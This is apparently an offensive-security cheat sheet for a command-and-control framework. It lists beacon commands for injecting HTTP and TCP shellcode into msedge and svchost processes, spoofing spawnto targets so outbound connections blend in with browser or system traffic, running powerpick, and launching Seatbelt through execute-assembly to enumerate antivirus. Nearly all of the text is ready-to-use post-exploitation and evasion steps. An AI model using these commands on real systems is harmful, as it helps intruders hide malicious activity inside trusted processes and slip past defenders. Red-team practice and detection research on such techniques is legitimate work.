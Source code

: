 
> Default post-ex commands will be ran by `svchost.exe` after malleable C2 configs

For any outbound connection commands find an msedge or chrome ppid change the spawnto to msedge.exe or chrome.exe


#### HTTP

Find msedge process and inject shell code into it via GUI

```powershell
inject 6424 x64 http
spawnto x64 'C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe'
powerpick command
```


```powershell
inject 6424 x64 http
spawnto x64 C:\Windows\System32\svchost.exe
powerpick command
```

#### TCP-Local (enum)

Find svchost.exe  process and inject TCP shell code into it via GUI
```powershell
spawnto x64 C:\Windows\System32\svchost.exe
```

```powershell
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe AntiVirus
```

